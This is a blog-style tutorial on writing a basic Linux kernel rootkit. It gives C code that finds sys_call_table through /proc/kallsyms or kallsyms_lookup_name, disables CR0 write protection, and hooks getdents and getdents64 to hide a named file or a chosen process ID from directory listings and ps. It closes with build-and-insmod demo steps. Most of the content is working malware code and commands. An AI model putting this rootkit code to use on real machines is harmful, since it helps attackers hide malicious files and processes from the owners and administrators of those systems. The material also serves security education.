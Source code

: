 ```yaml
---
layout: post
title: "Linux Kernel Rootkit Basics"
author: "Grant"
tags: [hypervisor, stack-smashing, buffer overflow, security, kernel, linux]
---
```


Rootkits are an advanced form of malware that leverage elevated privileges to hide themselves from the operating system. In this post we will go over how to write a basic rootkit that is capable of hiding files and processes on Linux.

# Listing files in a directory
<hr>
<br>

Let's look at a simple C program that can list files in a directory.

{% highlight c %}
#include <stdio.h>
#include <dirent.h>

int main() {
	DIR *d = opendir(".");
	struct dirent *dire;
	while ((dire = readdir(d)) != NULL) {
		printf("%s\n", dire->d_name);
	}
	closedir(d);
}
{% endhighlight %}

We can see that the `readdir()` function is called to get the files in a folder, however we're interested in going as low-level as possible to see what we need to hook in the kernel to manipulate the listed files for all programs. A good way of doing this is to use the `strace` tool to log all of the syscalls a program invokes.


`strace ./a.out`

```
munmap(0x7fa11faa0000, 133984)          = 0
openat(AT_FDCWD, ".", O_RDONLY|O_NONBLOCK|O_CLOEXEC|O_DIRECTORY) = 3
fstat(3, {st_mode=S_IFDIR|S_ISVTX|0777, st_size=12288, ...}) = 0
brk(NULL)                               = 0x55ce40037000
brk(0x55ce40058000)                     = 0x55ce40058000
getdents(3, /* 28 entries */, 32768)    = 1376
fstat(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 4), ...}) = 0
write(1, ".\n", 2.)                      = 2
write(1, "..\n", 3..)                     = 3
```

Several syscalls are invoked by our program and right before we start seeing some recognized files printed out (".", ".."), `getdents()` is called. This is the syscall
that is used to get directory entries on Linux and therefore is what we want to hook to hide files.

# Hooking Syscalls
<hr>
<br>

## Syscall Table
In Linux, there is an [array in the kernel that contains pointers to all of the syscalls.](https://elixir.bootlin.com/linux/v5.5.7/source/arch/x86/entry/syscall_64.c#L27)

`asmlinkage const sys_call_ptr_t sys_call_table[__NR_syscall_max+1]`

The index into this array corresponds to the syscall number which you can [look up here](https://syscalls.kernelgrok.com/). Because of this, it is quite easy to hook a syscall function as we simply need to replace the function pointer for that syscall number to point to a function we define.

{% highlight c %}
// Pointer to sys_call_table in memory
static unsigned long *syscall_table = (unsigned long *)0xdeadbeef;
syscall_table[__NR_getdents] = hooked_getdents;
{% endhighlight %}

## Modifying Syscall Table

Since the memory region of the kernel containing the `sys_call_table` pointer is marked read-only, we can't modify it (even as ring 0) without first changing the permissions. To do this, we have to toggle the [WP bit (bit 16) in the CR0 register](https://en.wikipedia.org/wiki/Control_register#CR0).

{% highlight c %}
write_cr0(read_cr0() & (~ 0x10000)); //Enable write access
write_cr0(read_cr0() | 0x10000); //Restore write protection
{% endhighlight %}

## Getting The Address 

Finally, we need to get the address of the `sys_call_table` array inside the kernel. There are numerous ways to do this, but we will use a simple one below.

The `/proc/kallsyms` file contains a mapping of kernel symbols to addresses and thankfully includes the `sys_call_table` symbol we are interested in. We can see that in our instance,
it is located at `0xffffffff9fe00240`.

 **Note**: this will change across systems and even reboots as the kernel memory map is randomized for security reasons.

{% highlight bash %}
vagrant@ubuntu-bionic:~$ sudo cat /proc/kallsyms  | grep sys_call_table
ffffffff9fe00240 R sys_call_table
ffffffff9fe01600 R ia32_sys_call_table
{% endhighlight %}

Another, and perhaps easier way, is to use the `kallsyms_lookup_name()` function which returns a pointer to the symbol passed as a parameter. We can find the address of `sys_call_table` with the following code:

{% highlight c %}
unsigned long table = (unsigned long *) kallsyms_lookup_name("sys_call_table");
{% endhighlight %}

## Putting it all together

Combining the steps above, in order to hook a syscall the steps will be roughly as follows:

1. Get the address of the `sys_call_table` pointer
2. Allow write access to kernel memory
3. Hook syscall function
4. Restore write protection to kernel memory


# Hiding Files
<hr>
<br>

As we saw above, the `getdents()` and `getdents64()` syscalls are used to get the the files in a directory, so we will want to hook these to hide files.

{% highlight c %}
unsigned long table = (unsigned long *) kallsyms_lookup_name("sys_call_table"); //Lookup table entry point
write_cr0(read_cr0() & (~ 0x10000)); //Enable write access
original_getdents = (void*)table[__NR_getdents];
original_getdents64 = (void*)table[__NR_getdents64];

table[__NR_getdents] = (unsigned long) my_getdents; //Hook getdents with our function
table[__NR_getdents64] = (unsigned long) my_getdents64;
write_cr0(read_cr0() | 0x10000); //Restore write protection
{% endhighlight %}

Now we will define our own function that implements `getdents()` and hides the file `secret.txt` by removing it from the list of files.

{% highlight c %}
asmlinkage int my_getdents(unsigned int fd, struct linux_dirent* dirp, 
	unsigned int count)
{
  int ret;
  struct linux_dirent* cur = dirp;
  int pos = 0;

  // Call original getdents
  ret = original_getdents(fd, dirp, count); 
  while (pos < ret) {

    if (is_prefix(cur->d_name, "secret.txt")) { // Insert your check here
      // Remove hidden file from list
      int reclen = cur->d_reclen;
      char* next_rec = (char*)cur + reclen;
      int len = (int)dirp + ret - (int)next_rec;
      memmove(cur, next_rec, len);
      ret -= reclen;
      continue;
    }
    pos += cur->d_reclen;
    cur = (struct linux_dirent*) ((char*)dirp + pos);
  }
  return ret;
}
{% endhighlight %}

# Hiding Processes
<hr>
<br>

On Linux, process information is stored in the `/proc/{pid}` folder and tools like `ps` read these entries to report on what processes are running. Since we already know how to hide files, all we need to do is hide the file that is the entry inside the `/proc` folder and it will not show up when `ps` is called!

The quickest way to do this is substitute the filename check from above with the PID:

{% highlight c %}
if (is_prefix(cur->d_name, "5048")) { // Insert your PID here
      // Remove hidden file from list
      int reclen = cur->d_reclen;
      char* next_rec = (char*)cur + reclen;
      int len = (int)dirp + ret - (int)next_rec;
      memmove(cur, next_rec, len);
      ret -= reclen;
      continue;
}
{% endhighlight %}

However this might hide some other files unintentionally, so it might be wise to check the full path.
# Demo
<hr>
<br>

Try it yourself!

```
vagrant init gfoudree/rootkit-dev --box-version 1
vagrant up
vagrant ssh
```

Now build and install the kernel module:

```
make
sudo insmod file_hider.ko
```

You should now notice that `secret.txt` is missing from the files in the current directory. Remove the kernel module `sudo rmmod file_hider` and observe that it appears again.